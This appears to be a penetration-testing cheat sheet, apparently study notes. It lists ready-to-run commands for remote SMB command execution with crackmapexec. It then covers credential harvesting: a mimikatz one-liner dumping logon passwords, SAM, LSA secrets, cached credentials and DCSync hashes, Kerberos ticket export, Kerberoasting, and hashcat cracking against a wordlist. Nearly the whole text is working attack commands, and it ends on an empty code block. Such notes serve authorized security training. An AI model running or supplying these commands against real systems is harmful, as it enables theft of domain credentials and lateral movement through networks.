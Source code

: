 ```Bash
crackmapexec smb <Rhost/range> -u 'user' -p 'password' -x 'command' #For executing commands, "-x" for cmd and "-X" for powershell command

#crackmapexec modules
crackmapexec smb -L #listing modules
crackmapexec smb -M mimikatx --options #shows the required options for the module
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz #runs default command
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz -o COMMAND='privilege::debug' #runs specific command-M
```




# Credential Harvesting
## Mimikatz

```bash
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit" >> mimikatz.txt
```

Runs everything in one go and saves to a text file.

```bash
privilege::debug  #Check Architecture for for correct mimikatz version

#Password / Hash Grabbing Techniques
sekurlsa::logonpasswords  #Dump cached passwords from logins

lsadump::sam #Dumps passwords/hashes in sam file
lsadump::secrets #Dumps passwords

lsadump::dcsync /domain:corp.com /user:jeff_admin #Creates a ntlm hash from DC for lateral move

## Invoke-Mimikatz
Invoke-Mimikatz -DumpCreds -ComputerName COMP-123 

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'

## Ticket Grabbing
net use \\dc01 #Creates a TGS with a domain user

sekurlsa::tickets  #Run with mimikatz
sekurlsa::tickets /export

PS C:\Users\Public\Documents> klist  #klist dumps tickets in powershell

#Invoke-Kerberoast.ps1 to dump tickets:

Import-Module .\Invoke-Kerberoast.ps1

Next type: PS C:\Users\Public> Invoke-Kerberoast.ps1

#Grabbing ticket hashes for hashcat:

Invoke-Kerberoast -OutputFormat Hashcat | % {$_.Hash} | Out-File -Encoding ascii hashes.hashcat

hashcat -m 13100 -a 0 -o cracked.txt hashes.hashcat /home/kali/rockyou.txt  ##Use SMBserver to transfer hashes

# Grabbing tickets for john:

```